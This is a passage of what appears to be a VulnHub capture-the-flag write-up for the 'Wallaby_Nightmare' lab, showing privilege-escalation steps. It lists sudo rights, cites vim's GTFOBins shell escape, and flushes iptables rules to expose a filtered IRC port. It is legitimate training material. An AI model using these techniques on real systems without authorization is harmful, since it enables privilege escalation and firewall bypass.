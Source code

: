 	![](Pasted%20image%2020220312180331.png)

# Privilege Escalation

## Waldo - Via SUDO
1. Check waldo's sudo access
	``` 
	www-data@ubuntu:/var/www/html$ sudo -l 
	Matching Defaults entries for www-data on ubuntu:
		env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User www-data may run the following commands on ubuntu:
		(waldo) NOPASSWD: /usr/bin/vim /etc/apache2/sites-available/000-default.conf
		(ALL) NOPASSWD: /sbin/iptables
	www-data@ubuntu:/var/www/html$ sudo -u waldo /usr/bin/vim /etc/apache2/sites-available/000-default.conf
	```
	- `/usr/bin/vim /etc/apache2/sites-available/000-default.conf`
		- `vim` has a [GTFO Bins](https://gtfobins.github.io/gtfobins/vim/) entry
		- We are able to spawn a shell in `vim`
	-  `/sbin/iptables`
		- We are able to view and flush ip-table rules
2. View IP-Table rules
	``` 
	www-data@ubuntu:/var/www/html$ sudo /sbin/iptables -L
	Chain INPUT (policy ACCEPT)
	target     prot opt source               destination         
	ACCEPT     tcp  --  localhost            anywhere             tcp dpt:ircd
	DROP       tcp  --  anywhere             anywhere             tcp dpt:ircd

	Chain FORWARD (policy ACCEPT)
	target     prot opt source               destination         

	Chain OUTPUT (policy ACCEPT)
	target     prot opt source               destination    
	```
	- ircd is blocked
3. Earlier, during our nmap scan we can see that `TCP/6667 - irc` is filtered
	``` 
	┌──(root💀kali)-[~/vulnHub/Wallaby_Nightmare]
	└─# nmap $ip -p 6667
	Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-12 18:41 +08
	Nmap scan report for 192.168.110.39
	Host is up (0.00042s latency).

	PORT     STATE    SERVICE
	6667/tcp filtered irc
	MAC Address: 08:00:27:80:57:12 (Oracle VirtualBox virtual NIC)

	Nmap done: 1 IP address (1 host up) scanned in 0.41 seconds
	```
4. Remove IP-Table rules
	``` 
	www-data@ubuntu:/var/www/html$ sudo /sbin/iptables --flush
	www-data@ubuntu:/var/www/html$ sudo /sbin/iptables -L
	Chain INPUT (policy ACCEPT)
	target     prot opt source               destination         
